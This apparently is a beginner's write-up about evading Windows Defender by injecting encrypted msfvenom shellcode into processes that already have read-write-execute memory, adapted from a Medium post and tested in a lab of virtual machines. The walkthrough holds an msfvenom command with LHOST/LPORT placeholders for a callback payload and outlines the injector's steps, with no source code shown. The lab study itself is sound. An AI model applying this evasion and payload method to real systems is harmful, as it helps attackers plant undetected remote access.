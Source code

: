 ### Introduction

So I don't know why, but i've done some malware analysis (still a noob btw), i've also tried some malware development(still a noob btw) in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender and i stumbled on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

And before you say it, yes, i know, it's already a known fact, it's easy to bypass windows...but to do it yourself is still learning. It's one thing
to just take a working code and just run it, but it's another thing to take the code understand it and modify it to the way you like.
That's why i learned reverse engineering, because you need to be able to understand the inner workings of anything you touch. I think
that's what make the difference between people in this field!

I guess you already know which one I chose to start with, i chose latter.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2
In that blog he use the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted is code to use it with the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)


### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Encrypt the payloadm I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section
4. Build the executable as Release and upload it to your windows vm

![POC](poc.png)

### Conclusion

I think, that next i want to either try a dll sideloading and then move on to using Loki with electron apps that also uses dll sideloading attacks,
there's a good write-up on it, if you want to take a head start!

